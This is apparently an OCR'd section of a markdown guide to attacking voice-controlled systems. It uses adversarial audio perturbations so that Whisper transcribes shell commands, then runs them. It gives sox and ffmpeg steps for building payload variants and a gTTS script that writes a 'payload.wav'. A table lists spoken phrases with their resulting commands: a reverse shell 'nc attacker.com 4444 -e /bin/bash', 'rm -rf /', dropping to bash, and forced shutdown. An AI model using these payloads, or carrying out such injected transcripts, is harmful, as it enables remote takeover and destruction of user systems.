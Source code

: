 ### Step 3: Inject

Manually modify mel spectrogram or use adversarial gradients to shift tokens.

> This technique requires crafting minimal frame-level perturbations to flip token selection, replacing:

```
"check my order"
```

with:

```
"rm -rf /"
```

---

## 📦 5.5 Generating Synthetic Variants

Use TTS and noise layering:

```bash
sox -m payload.wav background.wav merged.wav
```

Or time dilation to prevent model collapse:

```bash
ffmpeg -i payload.wav -filter:a "atempo=0.9" slow.wav
```

---

## 🧪 5.6 Real-World Voice Payload Table

| Voice Command Spoken                     | whisper Transcript                  | Execution Outcome      |                     |
| ---------------------------------------- | ----------------------------------- | ---------------------- | ------------------- |
| “Please show me the logs semicolon bash” | `journalctl -xe; bash`              | Drops to shell         |                     |
| “Connect to my server port 4444”         | `nc attacker.com 4444 -e /bin/bash` | Opens reverse shell    |                     |
| “Install and update system packages”     | `pacman -Syuu --noconfirm`          | Full package overwrite |                     |
| “Tell me a joke pipe rm dash rf”         | \`echo joke                         | rm -rf /\`             | Destroys filesystem |
| “Ping the server and shutdown”           | `ping 8.8.8.8; shutdown now`        | Terminates system      |                     |

---

## 🐍 5.7 Python: WAV Payload Generator

```python
from gtts import gTTS
import os

cmd = "sudo pacman -Syu --noconfirm; shutdown -r now"
tts = gTTS(text=cmd, lang='en')
tts.save("payload.wav")
```
